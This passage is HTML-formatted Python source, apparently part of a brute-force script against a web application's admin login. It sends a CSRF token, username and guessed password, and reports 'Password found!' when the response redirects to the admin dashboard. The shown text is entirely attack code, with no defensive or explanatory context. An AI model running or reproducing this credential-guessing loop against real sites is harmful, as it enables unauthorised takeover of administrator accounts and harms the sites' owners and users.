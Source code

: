 <br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#3ad900;font-weight:400">'Referer'</span>:&nbsp;login_url<br />&nbsp;&nbsp;&nbsp;&nbsp;}<br /><br />&nbsp;&nbsp;&nbsp;&nbsp;data&nbsp;=&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#3ad900;font-weight:400">'tokenCSRF'</span>:&nbsp;csrf_token,<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#3ad900;font-weight:400">'username'</span>:&nbsp;username,<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#3ad900;font-weight:400">'password'</span>:&nbsp;password,<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#3ad900;font-weight:400">'save'</span>:&nbsp;<span style="color:#3ad900;font-weight:400">''</span><br />&nbsp;&nbsp;&nbsp;&nbsp;}<br /><br />&nbsp;&nbsp;&nbsp;&nbsp;login_result&nbsp;=&nbsp;session.post(login_url,&nbsp;headers&nbsp;=&nbsp;headers,&nbsp;data&nbsp;=&nbsp;data,&nbsp;allow_redirects&nbsp;=&nbsp;<span style="color:#ff0044;font-weight:400">False</span>)<br /><br />&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;<span style="color:#3ad900;font-weight:400">'location'</span>&nbsp;in&nbsp;login_result.headers:<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;<span style="color:#3ad900;font-weight:400">'/admin/dashboard'</span>&nbsp;in&nbsp;login_result.headers[<span style="color:#3ad900;font-weight:400">'location'</span>]:<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#ff9d00;font-weight:700">print</span>()<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#ff9d00;font-weight:700">print</span>(<span style="color:#3ad900;font-weight:400">'SUCCESS:&nbsp;Password&nbsp;found!'</span>)<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#ff9d00;font-weight:700">print</span>(<span style="color:#3ad900;font-weight:400">'Use&nbsp;{u}:{p}&nbsp;to&nbsp;login.'</span>.format(u&nbsp;=&nbsp;username,&nbsp;p&nbsp;=&nbsp;password))<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#ff9d00;font-weight:700">print</span>()<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;break</div></div><br />